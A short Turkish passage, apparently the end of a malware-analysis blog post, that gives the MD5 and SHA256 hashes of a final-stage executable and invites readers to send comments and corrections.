


Son aşama çalıştırılabilir dosyasının bilgileri:

MD5: 73f9e7dc303e53b7bf97c919c9c1b10b

SHA256: 421c4b4b53d291da2b53c068a491b3913d92fe0eb6f330861e7b60f3d9f8eee7

---

Eleştiri/düzeltme/öneri ve sorularınız için lütfen iletişim adreslerimden bana ulaşınız. Yorumlarınız benim için değerli :)
